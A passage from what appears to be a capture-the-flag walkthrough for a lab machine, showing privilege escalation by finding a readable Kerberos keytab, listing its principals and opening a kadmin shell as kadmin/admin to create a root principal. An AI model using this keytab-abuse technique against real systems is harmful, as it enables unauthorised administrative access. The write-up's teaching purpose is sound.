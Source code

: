 One thing to consider is that we need to login as fast as possible since the file is deleted after the cronjob is running again.

Enumerating the machine we find out a .keytab file under the following path: ^76eeb6
```bash
[admin@srv01 mail]$ find / -type f -group admin 2>/dev/null | grep -v /proc | grep -v /sys/fs
/home/admin/squid_logs.tar.gz.2023-01-23-205802
/usr/local/bin/log_backup.sh
/etc/krb5.keytab
```
This is the description of such file:
![[Pasted image 20230123150039.png]]
In order to abuse of this keytab file we can use the keylist -k command:
```bash
[admin@srv01 mail]$ klist -k /etc/krb5.keytab
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
```
Another command to abuse of this keytab is the kadmin which with the following parameters we can create a Principal in this case root: ^9c1475
```bash
[admin@srv01 mail]$ kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
```
This will retrieve an interactive kadmin shell, getting the help command we can see a lot of interesting instructions:
```bash
kadmin:  ?
Available kadmin requests:
add_principal, addprinc, ank  Add principal
delete_principal, delprinc    Delete principal
modify_principal, modprinc    Modify principal
rename_principal, renprinc    Rename principal
change_password, cpw     Change password
get_principal, getprinc  Get principal
list_principals, listprincs  List principals
add_policy, addpol       Add policy
modify_policy, modpol    Modify policy
delete_policy, delpol    Delete policy
get_policy, getpol       Get policy
list_policies, listpols, List policies
get_privs, getprivs      Get privileges
ktadd, xst               Add entry(s) to a keytab
ktremove, ktrem          Remove entry(s) from a keytab
lock                     Lock database exclusively (use with extreme caution!)
unlock                   Release exclusive database lock
purgekeys                Purge previously retained old keys from a principal
get_strings, getstrs     Show string attributes on a principal
set_string, setstr       Set a string attribute on a principal
del_string, delstr       Delete a string attribute on a principal
```